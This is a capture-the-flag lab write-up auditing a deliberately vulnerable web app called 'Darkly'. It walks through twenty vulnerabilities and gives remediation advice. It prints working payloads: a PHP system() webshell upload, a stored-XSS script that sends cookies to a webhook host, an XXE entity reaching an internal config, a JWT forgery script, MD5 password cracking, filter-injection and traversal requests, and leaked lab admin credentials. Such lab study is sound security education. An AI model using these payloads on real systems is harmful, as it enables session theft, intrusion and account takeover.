

# Darkly — Complete Web Security Audit (Walk-through)

A single combined write-up of the whole engagement. Each entry below jumps to its section.

The subject hides 19 vulnerabilities and 10 flags, split in two: **mandatory** asks
for 6 flags (4 via a privilege-escalation chain up to administrator, 2 of choice)
across 10 explained vulnerabilities, and **bonus** asks for 4 more flags (10 total)
across 5 more vulnerabilities. Breaches 01–10 below cover the mandatory part (all
10 flags recovered, more than the 6 required); breaches 11–20 cover the bonus part
(ten weaknesses explained with no flag, double the 5 required).

## Table of Contents

  - [Reconnaissance & interaction](#as-always-first-thing-first-we-must-interact-with-the-web-app-so-we-can-get-all-the-recon-to-retrieve-the-vulns)
  - [First vulnerability -- BAC (Broken Access Control)](#first-vulnerability----bac-broken-access-control)
  - [Second vulnerability -- File Upload via Account Takeover (Student account)](#second-vulnerability----file-upload-via-account-takeover-student-account)
  - [Third vulnerability -- Stored XSS (Cross Site Scripting)](#third-vulnerability----stored-xss-cross-site-scripting)
  - [Fourth vulnerability --  Insecure Password Reset](#fourth-vulnerability-----insecure-password-reset)
  - [Fifth vulnerability -- hidden api endpoint](#fifth-vulnerability----hidden-api-endpoint)
  - [Sixth vulnerability -- Mass Assignment](#sixth-vulnerability----mass-assignment)
  - [Seventh vulnerability -- XXE leading to SSRF](#seventh-vulnerability----xxe-leading-to-ssrf)
  - [Eighth vulnerability -- Privilege Escalation via PocketBase](#eighth-vulnerability----privilege-escalation-via-pocketbase)
  - [Ninth vulnerability -- Local File Inclusion or known as LFI.](#ninth-vulnerability----local-file-inclusion-or-known-as-lfi)
  - [Tenth vulnerability -- CSRF (Cross-Site Request Forgery)](#tenth-vulnerability----csrf-cross-site-request-forgery)
- [Bonus part — additional vulnerabilities (no flag required)](#bonus-part--additional-vulnerabilities-no-flag-required)
  - [Eleventh vulnerability -- Reflected XSS (Newsletter)](#eleventh-vulnerability----reflected-xss-newsletter)
  - [Twelfth vulnerability -- Open Redirect](#twelfth-vulnerability----open-redirect)
  - [Thirteenth vulnerability -- Weak & leaked JWT signing secret → session forgery](#thirteenth-vulnerability----weak--leaked-jwt-signing-secret--session-forgery)
  - [Fourteenth vulnerability -- Weak passwords + exposed MD5 password hints (Cryptographic / Auth failure)](#fourteenth-vulnerability----weak-passwords--exposed-md5-password-hints-cryptographic--auth-failure)
  - [Fifteenth vulnerability -- PocketBase filter injection (NoSQL-style injection)](#fifteenth-vulnerability----pocketbase-filter-injection-nosql-style-injection)
  - [Sixteenth vulnerability -- Sensitive data / schema disclosure & BOLA](#sixteenth-vulnerability----sensitive-data--schema-disclosure--bola)
  - [Seventeenth vulnerability -- Security misconfiguration (verbose headers, non-HttpOnly cookie, exposed admin console)](#seventeenth-vulnerability----security-misconfiguration-verbose-headers-non-httponly-cookie-exposed-admin-console)
  - [Eighteenth vulnerability -- Vulnerable & Outdated Components (OWASP A06)](#eighteenth-vulnerability----vulnerable--outdated-components-owasp-a06)
  - [Nineteenth vulnerability -- Security Logging & Monitoring Failures (OWASP A09)](#nineteenth-vulnerability----security-logging--monitoring-failures-owasp-a09)
  - [Twentieth vulnerability -- Insecure Design (OWASP A04)](#twentieth-vulnerability----insecure-design-owasp-a04)
- [Summary](#summary)

---
## as always, first thing first we must interact with the web app so we can get all the recon to retrieve the vulns:

<p align="center">
  
</p>

so here we are seeing a sign in, with forum and agenda and other staff, while my role is just a guest. lets see whats in the robots.txt

<p align="center">
  
</p>

now we have something, the robots.txt disallowing the valueable endpoints but first we need to see as a guest what we can do, is there something broken? let's find out. i went to the forum and i noticed something about student, staff...

## First vulnerability -- BAC (Broken Access Control)

> ### [Read the full breach write-up — exploit, impact & remediation →](01-broken-access-control-idor/explanation.md)

<p align="center">
  
</p>

i clicked to scheduled maintenance, and there is view profile, oh that easy as guest i can see internal data of a user?

<p align="center">
  
</p>

i clicked it then i found the first flag:

```text
Flag: FLAG{1d0r_ur_pr0f1l3_1s_m1n3}
```

<p align="center">
  
</p>

here it shows that RBAC or BAC (Broken Access Control) is a mandatory part in the security of web, as an unauthenticated user i can see data that i shouldn't know. also it the bac it should also protects between user and user in sensitive data like (emails, private num, address home ...) or private note like in this example that Only visible to wil — supposedly, lets move on to the second vuln.

## Second vulnerability -- File Upload via Account Takeover (Student account)

> ### [Read the full breach write-up — exploit, impact & remediation →](02-unrestricted-file-upload/explanation.md)

after looking everything in the platform as guest there is nothing left us, so we need to trigger the sign in and and see what actually can we make, my thinking went to password reset flow, in the same page `/forum` we can see a student that reclaiming he is not changing the password, my eyes in this specific target.

<p align="center">
  
</p>

as my previous vulnerability, i can see profiles as a guest that means his email shown publicly.

<p align="center">
  
</p>

now we know his email, only step left is the password to login, lets try to forget password and see the logic backend how it handles, is it magic link, sspr, or another method

<p align="center">
  
</p>

if we click sent.

<p align="center">
  
</p>

we can edit the password, and thats a problem because of Token generation: When you requested a reset, the system generated a unique, hidden security "token" (a long string of characters) like in the below:

<p align="center">
  
</p>

The system embedded that token into the button or link sent to your email, Clicking that link proved to the system that you own the email address associated with the account, Because your identity was verified by the link, the system opened this specific web page to let you overwrite the old password directly, so we are in.

<p align="center">
  
</p>

after i am in, we successfully takeover account student which previously will have restricted access, but we discovery new things, as `/agenda`

<p align="center">
  
</p>

or in `/forum` we can create post or search for something.

<p align="center">
  
</p>

or we can edit the profile user, we should look for something we can interact with server like reverse shell.

<p align="center">
  
</p>

so actually we can upload an avatar to the server, this means we have a connection. but are they checking the parsing or no.

<p align="center">
  
</p>

so we created a basic reverse shell in php:

``` text
cat << 'EOF' > payload.php
<?php echo system('id'); ?>
EOF
```

after we uploaded, it works and we get the flag:


<p align="center">
  
</p>

```text
Flag: FLAG{unr3str1ct3d_upl0ad_g0_brrr}
```

Note that the script is just a mimic to the real scenarios how reverse shell works, the connection i make is just an example. i checked in my terminal and i didnt receive any shell, the vulnerability shows you how reverse shell works only.


## Third vulnerability -- Stored XSS (Cross Site Scripting)

> ### [Read the full breach write-up — exploit, impact & remediation →](03-stored-xss/explanation.md)

back to `Forum` there is option to make a new post, new post has a title and a content, and they mention there is a automated bot checking every new post

<p align="center">
  
</p>

and there is a hint:
``` text
🛡️ Every new post is opened by our automated moderation bot for review, usually within a minute.
```

so it comes to my mind this is an xss and its obviously a stored one cuz of the target, and its the bot, so i went to comment on other blog and try to xss.

<p align="center">
  
</p>

then BOOM:

<p align="center">
  
</p>

so here we found xss, but how can we retrieve the flag? here it came an idea to let the bot visit a webhook so we can steal his cookies, if we can get his cookies then we can get his account. so i tried to create a webhook in the `webhook.site`, so i make a simple script here:

```text
<script>
var webhookUrl = "2874514b-18c5-48eb-91bb-c0371cb9b98c"; 
var victimCookies = document.cookie;
fetch(webhookUrl + "?c=" + encodeURIComponent(victimCookies));
</script>
```
<p align="center">
  
</p>

after that the bot will visit the link, and then we can get his cookies, and we found the flag:

<p align="center">
  
</p>

```text
Flag: FLAG{xss_st0r3d_1s_n0t_4_f34tur3_w1l}
```
## Fourth vulnerability --  Insecure Password Reset

> ### [Read the full breach write-up — exploit, impact & remediation →](04-insecure-password-reset/explanation.md)

back to password flow, in the `/forum`, a student named `benjamin` posted a public "PSA" outing the bug on himself: the reset link worked instantly with no email, the token was just sitting in the URL, and it's literally `md5(email)` — he even says once you're in, "your account recovery code is just sitting there on your profile settings page." he basically told us the vuln AND where the flag is.

<p align="center">
  
</p>

so we take `benjamin`'s email (public, from breach 01) and request a reset for his account.

<p align="center">
  
</p>

and its indeed! they let me to reset the password, so likely the server doesnt check the url is front side what checks it, if we decode the token or encode it the email to md5 we will see the same value.

<p align="center">
  
</p>

and if we encode `benjamin`'s email to md5 its the same value as in the url:

<p align="center">
  
</p>

so we will continue and we put a new password and we successed, logged in as `benjamin`.

<p align="center">
  
</p>

we got in, but where is the flag, where it could be?

<p align="center">
  
</p>

`benjamin` already told us: profile settings, account recovery code. so we go to `/profile/me/settings` and, exactly as he said, there's a box literally labelled "Account recovery code" — and we found it:

<p align="center">
  
</p>

```text
Flag: FLAG{r3s3t_t0k3n_w4s_just_md5_lol}
```

let's move on the next vulnerability.

## Fifth vulnerability -- hidden api endpoint

> ### [Read the full breach write-up — exploit, impact & remediation →](05-hidden-api-endpoint/explanation.md)

in this section we will discover the importance of endpoints or API specifically, i went back to robots.txt, and i found endpoints are disallowed, some of them were foribdden, some of them are redirections, not exists

<p align="center">
  
</p>

but one of them is public and it shouldn't be, and its `/api/grades`, i access to it and found it:

<p align="center">
  
</p>

```text
Flag: FLAG{md5_1s_4_n4m3pl4t3_n0t_4_l0ck}
```

## Sixth vulnerability -- Mass Assignment

> ### [Read the full breach write-up — exploit, impact & remediation →](06-mass-assignment/explanation.md)

i love this one, in this vulnerability we will see if can manipulate roles or not, as student role my hands are tight, i can do anything else, so we need a higher role.

<p align="center">
  
</p>

our target is the next role, campus staff. i saw earlier a hint in the `/staff` endpoint:

<p align="center">
  
</p>

if you can see, they said we can try `PATCH /api/profile`, but how we can do it ? we need a tool to edit the request, and here it comes `BurpSuite`, with burpsuite we can manipulate request as we want. and i will show you steps how to do it:

<p align="center">
  
</p>

this is the interface of burp, i am already using it in the beginning of project thats why you are seeing so many request, anyway we just need a normal GET method thats in the `/`, after that click `ctrl + R` to send it to Repeater, what is repeater?

`Repeater: you can manually edit and resend individual HTTP or WebSocket requests without intercepting them in your browser. It is the best tool for probing input-based vulnerabilities, testing multi-step processes, and analyzing server responses.`

<p align="center">
  
</p>

as you can see, 200 OK in the response request, but we need to to edit the path to `/api/profile` so i switched it:

<p align="center">
  
</p>

something is wrong right? yes its the method, there are method in the http protocol and we need to follow up, there are `GET`, `POST`, `PATCH`, `OPTIONS`, `DELETE` and there is a new method called `QUERY` in http/3, all we need is PATCH so we can update our role.

<p align="center">
  
</p>

still, we forgot to add the body, where we need to manipulate our role, so here is the final payload:

<p align="center">
  
</p>

good, that 200 OK feels so good, so we lets in browser what actually we can do:

<p align="center">
  
</p>

as you can see, we are now staff campus, and there is a new section called `staff area` let's see what's in there:

<p align="center">
  
</p>

let's open the dashboard:

<p align="center">
  
</p>

we found the flag.

```text
Flag: FLAG{just_p4tch_y0ur_0wn_r0l3_lol}
```

## Seventh vulnerability -- XXE leading to SSRF

> ### [Read the full breach write-up — exploit, impact & remediation →](07-xxe-to-ssrf/explanation.md)

back to agenda, where we need to make a payload in xml file to find remaining flags, but the vulnerability method i dont know which one, is it xxe to rce or xxe to sqli, or xxe to reverse shell... 
it was a bit misleading but after i got the hint inside the `/staff/dashboard` 

<p align="center">
  
</p>

it was all about server side request forgery. that's my target now. but which server or endpoint i should i interact is it `localhost:4942` (our main site) or `localhsot:8090` (pocketbase), and in the `/forum` a pinned blog said that there is an ongoing ticket in internal?

<p align="center">
  
</p>

after i visted pocketbase via /staff/dashboard endpoint, i know for sure thats where i need to focus on, there is a direct link to the server pocketbase:

<p align="center">
  
</p>

i opened it, then it shows me a login page where i should trigger.

<p align="center">
  
</p>

 but first we need to get creds so here where ssrf should step aside for the endpoint, and the endpoint is `/internal`. so i browse it and it returns with:

<p align="center">
  
</p>

the promise endpoint is `/internal/config`, but we find a bit problem we can't get it.

<p align="center">
  
</p>

so we tried to do xml external entity can leads to server side request forgery, we made a simple payload in xml,they are already giving us the expected format. so the payload is:

```xml
<?xml version="1.0"?>
<!DOCTYPE agenda [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:4942/internal/config">
]>
<agenda>
  <event>
    <title>&xxe;</title>
    <date>2042-01-15</date>
  </event>
</agenda>
```

so we uploaded the xml external entity, and it works!

<p align="center">
  
</p>

- response:

```json
{"jwt_secret":"42network","pb_admin_email":"admin@42network.local",
"pb_admin_password":"Darkly42Admin!","app_version":"1.0.0",
"campus":"wilcity","darkly_flag":"FLAG{d3fus3dxml_n3xt_spr1nt_pr0m1s3}"}
```

```text
Flag: FLAG{d3fus3dxml_n3xt_spr1nt_pr0m1s3}
```

we secured a flag. and notice that we got also credentials of pocketbase:

```json
"pb_admin_email":"admin@42network.local",
"pb_admin_password":"Darkly42Admin!"
```
That's what we will focus on the next vulnerability.

## Eighth vulnerability -- Privilege Escalation via PocketBase

> ### [Read the full breach write-up — exploit, impact & remediation →](08-privilege-escalation-pocketbase/explanation.md)

so after i logged in as admin from the leaked credentials, i found so much data!

<p align="center">
  
</p>

as you can see, it listed me all the users are in the database, also the collection, if we try to click our selves:

<p align="center">
  
</p>

so i can edit my role as i want and also anything, i tried to switch my role from cadet to god and switch the level:

<p align="center">
  
</p>

and its done !

<p align="center">
  
</p>

there is a new entity in the sidebar named by admin, we need to look for the flag,i checked it i found only the old flag.

<p align="center">
  
</p>

if you noticed they put always a link of `pocketbase /_/`, what if the 9th flag is there ? let's search up in every collections, so i went to `internal_audit` collection and found what:

<p align="center">
  
</p>

```text
Flag: FLAG{th3_und3rsc0r3_sl4sh_kn0ws_th3_w4y}
```

we found the flag, and 2 are left let's hunt them.

## Ninth vulnerability -- Local File Inclusion or known as LFI.

> ### [Read the full breach write-up — exploit, impact & remediation →](09-lfi-path-traversal/explanation.md)

looking back to the endpoint `/project`, i found in the source page something:

<p align="center">
  
</p>

so we tried to see what's in faq_darkly.pdf and :

<p align="center">
  
</p>

we noticed that it's just a placeholder but let's see if we can hit the `/etc/passwd`:

<p align="center">
  
</p>

it returns forbidden 403, can  path traversal works?

<p align="center">
  
</p>

it works, nut 404 not found, hm so we need to see in a different angle here, i noticed something while i am doing recon in this vulnerability the endpoint is very restricted, but look at the response headers:

<p align="center">
  
</p>

as you can see, you will noticed that there is headers of `x-backup`
```text
x-backup-schedule: daily@03:00
x-backup-dest: localhost:/opt/pocketbase/pb_data
x-backup-exclude: data/private_notes.txt
x-last-backup: 2024-12-01T03:00:00Z
```
so could flag be in the private_notes? likely but i am not sure it could be there, so let's test it, 

<p align="center">
  
</p>

hm didnt work, but wait let's replace /data with ..

<p align="center">
  
</p>

okay we hit again forbidden, what if we minus the depth ?

<p align="center">
  
</p>

okay we hit the jackpot!!!!! we found the flag.

```text
Flag: FLAG{d0t_d0t_sl4sh_4ll_th3_w4y_d0wn}
```

Let's move on the next vulnerability.

## Tenth vulnerability -- CSRF (Cross-Site Request Forgery)

> ### [Read the full breach write-up — exploit, impact & remediation →](10-csrf-origin-validation/explanation.md)

last one, and the hint said `csrf origin`, then `CSRF cookie set to Samesite=lax`, then `POST /profile/me/settings`, so i went step by step on those three.

first, login normally as `jdoe` (our foothold account since vuln #2) and grab the request in Burp to see the session cookie attributes:

<p align="center">
  
</p>

```text
set-cookie: session=eyJhbGciOiJIUzI1NiIs...; Path=/; SameSite=lax
```

no `Secure`, no `HttpOnly`, and `SameSite=lax`. that made me think first of the classic Lax bypass: convert the state-changing request from POST to GET, since Lax still lets the cookie ride along on a top-level cross-site GET navigation. so i tested `GET /profile/me/settings?first_name=x&...` — dead end, the route only renders the page on GET, it never applies the update. so that bypass is closed here.

so i went back to basics: does the server even check who is asking? i went to `/profile/me/settings` (the form that updates `first_name`, `last_name`, `campus`), sent it to Repeater, and just added a completely fake `Origin` header pointing to a random domain i don't own:

<p align="center">
  
</p>

```text
POST /profile/me/settings HTTP/1.1
Origin: https://example.com
Cookie: session=<jdoe's session>
...

first_name=CSRF_ORIGIN_TEST&last_name=Doe&campus=Wilcity
```

and it just... worked. 302 back to the settings page, and the flag was sitting right there in the redirect:

```text
location: /profile/me/settings?csrf_flag=FLAG%7Bcsrf_4ny_0r1g1n_1s_w3lc0m3%7D
```

```text
Flag: FLAG{csrf_4ny_0r1g1n_1s_w3lc0m3}
```

no `Origin`/`Referer` validation, no CSRF token in the form, nothing. the only thing sitting between an attacker and this endpoint is the browser's own `SameSite=Lax` cookie policy — which is a *client-side* mitigation, not something the server actually enforces itself.

**one honest caveat, because i actually tested it instead of assuming:** i built the textbook exploit — an auto-submitting HTML `<form method="POST">` hosted on a different origin — and drove it in a real Chromium browser against the live app, with the victim's session cookie already set, exactly like a real attacker's page would be visited by a logged-in victim. Result: the browser withheld the `session` cookie on that cross-site POST (that's `SameSite=Lax` doing exactly its job) and the request bounced straight to `/login`, no update happened. so the *naive* "share this HTML page and wait" version of this attack does **not** work against a fully up-to-date browser.

that doesn't make the finding fake, it just means the real risk lives in the gap `SameSite=Lax` doesn't cover: the server has zero defense-in-depth of its own. anything that gets a request to this endpoint with the cookie attached but from a forged origin — a compromised/attacker-controlled subdomain (same-site, so the cookie rides along regardless of Lax), an older or non-compliant browser/webview, a proxy or malicious extension that replays captured requests, or simply an attacker with any means of directly issuing the HTTP request (which is exactly how we captured the flag) — sails right through, because the app never actually checks `Origin`. that's the whole joke in the flag: `csrf_4ny_0r1g1n_1s_w3lc0m3`, any origin is welcome, because nobody's checking.

that's all 10 flags. from an unauthenticated IDOR all the way to a stored XSS, an insecure MD5 reset token, a leaked API, a self-service mass assignment, an XXE-to-SSRF that leaked admin creds, a PocketBase privesc, an LFI via a backup path, and finally a CSRF endpoint with no server-side origin checks at all. moral of the story across basically every single one of these: never trust the client, and never let a single security control (a cookie flag, a `robots.txt` disallow, a frontend check) be the *only* thing standing between a user and someone else's data.

---

# Bonus part — additional vulnerabilities (no flag required)

> The subject requires, for the bonus, **5 more vulnerabilities** on top of the 10 mandatory ones (one of which — at least — exposes no flag). The ten weaknesses below were all confirmed live against `localhost:4942` / `localhost:8090`. None of them are needed to become administrator, and (in this build) none of them mint a new `FLAG{...}` token — they are the "weaknesses that expose no flag" the subject talks about. Together with the ten flagged breaches above, they bring the audit to **20 explained vulnerabilities**.

## Eleventh vulnerability -- Reflected XSS (Newsletter)

> ### [Read the full breach write-up — exploit, impact & remediation →](11-reflected-xss/explanation.md)

The `/newsletter` page echoes the `email` parameter **straight back, unescaped**, into the "subscribed with:" success banner. The developers even argue about it in the HTML source:

```html
<!-- wil: the "subscribed with: ___" banner echoes your email straight back. sophie: unescaped?? wil: define "unescaped". -->
<!-- emilie: someone subscribed with a <script> tag last week. wil: bold of them. it worked. -->
```

The subscribe form `POST`s to `/newsletter`, which 302-redirects to `/newsletter?email=<your input>&msg=subscribed`, and the banner is rendered from that query string. The `<input value="...">` attribute is HTML-escaped, but the banner `<div>` is **not**.

Exploit (open in a browser while logged in):

```text
http://localhost:4942/newsletter?email=<script>alert(document.cookie)</script>&msg=subscribed
```

The script executes and pops the victim's session cookie. Reproduced in the browser — the alert shows the full `session=...` JWT.

- **Impact:** arbitrary JavaScript in a victim's session. Combined with the missing `HttpOnly` flag (see vuln #17), a crafted newsletter link sent to a higher-privileged user steals their session token.
- **Remediation:** context-aware output encoding (HTML-escape the banner exactly like the input `value`); never build HTML from raw request parameters; add a strict `Content-Security-Policy`.

## Twelfth vulnerability -- Open Redirect

> ### [Read the full breach write-up — exploit, impact & remediation →](12-open-redirect/explanation.md)

The footer "42.tech" / "Intra" links go through a redirector that trusts an attacker-controlled URL:

```bash
curl -s -D - "http://localhost:4942/redirect?next=https://evil.example.com"
# HTTP/1.1 307 Temporary Redirect
# location: https://evil.example.com
```

`next` is followed to any external host (protocol-relative `//evil.com` works too). Only the `next` parameter is honoured.

- **Impact:** phishing / credential harvesting under a trusted domain; can be chained with OAuth/token flows to leak secrets to an attacker origin.
- **Remediation:** allow-list of internal paths only; reject absolute/scheme/`//` URLs; if external links are needed, show an interstitial and sign the target.

## Thirteenth vulnerability -- Weak & leaked JWT signing secret → session forgery

> ### [Read the full breach write-up — exploit, impact & remediation →](13-jwt-weak-secret-forgery/explanation.md)

The application signs its session cookie with **HS256** using the secret `42network`. That secret is (a) trivially guessable and (b) leaked twice — base64 in Wil's maintenance forum post (`dmFsaWRhdGlvbl9rZXk9NDJuZXR3b3Jr` → `validation_key=42network`) and in the XXE-leaked `/internal/config` (`jwt_secret`).

Proof the real cookie verifies against it, and forging a session that **impersonates another user**:

```python
import hmac, hashlib, base64, json
b = lambda x: base64.urlsafe_b64encode(x).rstrip(b'=').decode()
h = b(b'{"alg":"HS256","typ":"JWT"}')
# impersonate wil (a staff user) by his PocketBase id in the `sub` claim
p = b(json.dumps({"sub":"k1asdfeditojrb4","login":"wil","role":"god","exp":2000000000},
                 separators=(',',':')).encode())
sig = b(hmac.new(b"42network", f"{h}.{p}".encode(), hashlib.sha256).digest())
print(f"session={h}.{p}.{sig}")
```

**Mechanism (verified):** the server *does* validate the HS256 signature — an `alg:none`, wrong-key, or unsigned token is rejected (302 → `/login`). But it reads the effective role from the **database record identified by `sub`**, and *ignores* the `role` claim in the token. So the exploit is not "set `role:god`" (that field is decorative) — it is **forging a validly-signed token for any `sub`** to become that user with no password. Impersonating `sub=k1asdfeditojrb4` (wil, staff) or `sub=enplwhu8jfo56oi` (sophie, god) returns `200` on `/admin` and `/staff/dashboard`. Because the signing key is both guessable and leaked, this is a full authentication bypass to any account.

- **Impact:** complete authentication/authorization bypass — become any user at any privilege level without credentials.
- **Remediation:** use a long, random, secret-managed signing key (never commit/leak it); rotate it; prefer server-side sessions or short-lived asymmetric (RS256) tokens; never expose it via config endpoints.

## Fourteenth vulnerability -- Weak passwords + exposed MD5 password hints (Cryptographic / Auth failure)

> ### [Read the full breach write-up — exploit, impact & remediation →](14-weak-passwords-md5-hints/explanation.md)

Every user record carries a `pw_hint` field that is just the **unsalted MD5 of the password**, and it is readable (via the IDOR/PocketBase exposure). Cracking against `rockyou.txt`:

```python
import hashlib
hints = {"jdoe":"e99a18c428cb38d5f260853678922e03",
         "benjamin":"d7b3e05e072dbee908fdc39db9ab16d7"}
rev = {v:k for k,v in hints.items()}
for w in open("rockyou.txt","rb"):
    w = w.rstrip(b"\r\n")
    h = hashlib.md5(w).hexdigest()
    if h in rev: print(rev[h], "=>", w.decode("latin-1"))
# jdoe => abc123
# benjamin => b3njamin!
```

`benjamin:b3njamin!` is accepted by PocketBase (`/api/collections/users/auth-with-password`), confirming the hint == the real password.

- **Impact:** account takeover of any user whose password is weak; unsalted MD5 offers no protection against rainbow tables.
- **Remediation:** never store a password "hint" that is derived from the password; hash passwords with bcrypt/argon2 (salted, slow); enforce password strength.

## Fifteenth vulnerability -- PocketBase filter injection (NoSQL-style injection)

> ### [Read the full breach write-up — exploit, impact & remediation →](15-pocketbase-filter-injection/explanation.md)

`/api/grades?student=<id>` builds a PocketBase filter string from the parameter without sanitisation, so filter syntax can be injected. The forum `search` parameter is injectable the same way.

```bash
# normal: one student's grades
curl -s "http://localhost:4942/api/grades?student=z4p1cnx47mfy50f"

# injection: dump ALL grades regardless of student
curl -s --get "http://localhost:4942/api/grades" --data-urlencode 'student=x" || "1"="1'
#                                                                       ^ breaks out of the filter

# forum search returns every post when the filter is broken out of
curl -s --get "http://localhost:4942/forum" --data-urlencode 'search=zzz" || "1"="1'   # 13/13 posts
```

`/api/docs-internal` even documents the sink: `"flag field accessible via GET /api/grades?student={id}"`.

- **Impact:** authorization bypass on record filtering; an attacker can enumerate other users' records and, via relation traversal in the filter, reach fields they should not see.
- **Remediation:** never concatenate user input into filter strings; use PocketBase parameterised filters (`filter="student={:id}", {"id": ...}`); enforce collection API rules server-side.

## Sixteenth vulnerability -- Sensitive data / schema disclosure & BOLA

> ### [Read the full breach write-up — exploit, impact & remediation →](16-sensitive-data-disclosure-bola/explanation.md)

Several endpoints leak information that should be internal:

```bash
# 1) Internal API schema: writable fields, role enum, and the injection hint
curl -s "http://localhost:4942/api/docs-internal"

# 2) BOLA: the single-user endpoint returns private fields for ANY id
curl -s -H "Cookie: session=<any valid session>" \
     "http://localhost:4942/api/users/<victim_id>"     # exposes private_note, pw_hint, recovery_code

# 3) XXE-reachable localhost config (see vuln #7) leaks jwt_secret + PB admin creds
```

`/api/docs-internal` hands an attacker the exact mass-assignment field list and the grades injection point; `/api/users/{id}` breaks object-level authorization (it returns fields PocketBase's own list rule would hide).

- **Impact:** roadmap for every other attack (which fields to mass-assign, where to inject) plus direct disclosure of private notes / password hints of other users.
- **Remediation:** remove internal/debug documentation endpoints from production; enforce per-object authorization on `/api/users/{id}` (return only the caller's own private fields); keep secrets out of any reachable config route.

## Seventeenth vulnerability -- Security misconfiguration (verbose headers, non-HttpOnly cookie, exposed admin console)

> ### [Read the full breach write-up — exploit, impact & remediation →](17-security-misconfiguration/explanation.md)

Multiple hardening failures, none of which yield a flag but each of which weakens the platform:

```bash
curl -s -D - -o /dev/null "http://localhost:4942/"
# x-powered-by: Python/3.11 FastAPI/0.104     <- stack/version disclosure
# x-pocketbase: http://localhost:8090          <- points straight at the backend
# x-42-internal: campus=paris                  <- internal metadata
curl -s -D - -o /dev/null "http://localhost:4942/backup"
# x-backup-dest: localhost:/opt/pocketbase/pb_data
# x-backup-exclude: data/private_notes.txt     <- the exact LFI target for flag #9
```

Additional items:
- **Session cookie is not `HttpOnly`** — `document.cookie` returns the JWT (proven with vuln #11), so any XSS steals the session. (Confirmed by sophie's own TODO: "migrate session cookie to httponly=true — ticket #4201".)
- **PocketBase admin UI is reachable** at `http://localhost:8090/_/` and, combined with the leaked admin creds (vuln #7→#8), gives full DB control.
- Verbose framework/version banners aid targeted exploitation.

- **Impact:** information leakage that shortcuts almost every other breach in this report; XSS-to-account-takeover made trivial by the missing cookie flags.
- **Remediation:** strip `X-Powered-By`/custom `X-*` headers in production; set session cookies `HttpOnly`, `Secure`, `SameSite=Strict`; never expose the admin console to untrusted networks; remove debug/backup metadata headers.

## Eighteenth vulnerability -- Vulnerable & Outdated Components (OWASP A06)

> ### [Read the full breach write-up — exploit, impact & remediation →](18-outdated-components/explanation.md)

The stack advertises its exact versions and the team documents having **disabled a security library on purpose**:

```bash
curl -s -D - http://localhost:4942/ | grep -i "server\|x-powered"
# server: uvicorn/0.24.0 Linux
# x-powered-by: Python/3.11 FastAPI/0.104     <- old FastAPI
# (PocketBase 0.22.4, from /api/settings)
```

```text
# DEPLOY LOG (HTML comment, every page)
v1.3.4 — wil — "disabled defusedxml temporarily" (that was 6 months ago)
v1.3.7 — emilie reported: replace stdlib xml.etree with defusedxml
```

Running stdlib `xml.etree` instead of `defusedxml` is precisely the outdated/misused-component condition that makes the **XXE (vuln #7)** possible; FastAPI `0.104`, uvicorn `0.24.0` and PocketBase `0.22.4` are all outdated releases with published advisories.

- **Impact:** the disabled/old components are the *root cause* of exploitable bugs (XXE) and expose the app to known CVEs in the pinned versions.
- **Remediation:** re-enable `defusedxml` (or `lxml` with entity resolution off); keep dependencies patched and pinned to maintained versions; don't advertise versions in headers.
- *No flag (root-cause / explain-only weakness).*

## Nineteenth vulnerability -- Security Logging & Monitoring Failures (OWASP A09)

> ### [Read the full breach write-up — exploit, impact & remediation →](19-logging-monitoring-failures/explanation.md)

There is no meaningful logging, alerting, or anti-automation, and the "telemetry" is admitted to be fake:

```bash
# 6 wrong logins in a row — no lockout, no captcha, no throttling
for i in 1 2 3 4 5 6; do
  curl -s -o /dev/null -w "%{http_code}\n" http://localhost:4942/login \
       -X POST --data-urlencode username=jdoe --data-urlencode password=wrong$i
done      # -> 302, 302, 302, 302, 302, 302

# "telemetry" accepts anything and stores nothing useful
curl -s http://localhost:4942/api/telemetry/heartbeat -X POST \
     -H 'Content-Type: application/json' -d '{"ts":0,"page":"x","ua":"x"}'
# {"status":"ok","ts":...}
```

```text
# DEPLOY LOG
v1.3.6 — wil — "added telemetry" (it's just a console.log)
```

During this whole audit — hundreds of requests, credential guessing, session forgery, XSS against the moderation bot, full DB dumps — nothing was rate-limited, blocked, or (observably) alerted on. Additionally the PocketBase request log (`/api/logs`) is readable once the admin console is reached, i.e. logs exist but are exposed rather than monitored.

- **Impact:** attacks (brute force, enumeration, injection) can run indefinitely and undetected; no forensic trail is acted upon.
- **Remediation:** real server-side logging of security events, alerting/anomaly detection, login rate-limiting + lockout/captcha, and access control on log data.
- *No flag (explain-only weakness).*

## Twentieth vulnerability -- Insecure Design (OWASP A04)

> ### [Read the full breach write-up — exploit, impact & remediation →](20-insecure-design/explanation.md)

Several weaknesses in Darkly are **design choices rather than isolated bugs** — the system is insecure *as specified*, so patching individual endpoints would not fix it. All of the following are confirmed elsewhere in this report:

- **MD5 used as if it were a secret** — the reset token is `md5(email)` (vuln 4) and every `pw_hint` is `md5(password)` (vuln 14). A fast, unsalted, public function used where a secret/unpredictable token is required.
- **Predictable-by-construction tokens** — the reset token is derived deterministically from a public identifier, so it can be reproduced offline for any user.
- **No anti-automation by design** — no rate-limit, lockout, or CAPTCHA on login or reset (vuln 19).
- **Secrets reachable by design** — `/internal/config` leaks the JWT secret and PB admin creds (vuln 7); `/api/docs-internal` publishes the schema and writable fields (vuln 16).

- **Impact:** multiple breaches are the *expected* behaviour of the system as designed; the threat model was never applied to the design (predictable tokens, fast hashes as secrets, reachable internals).
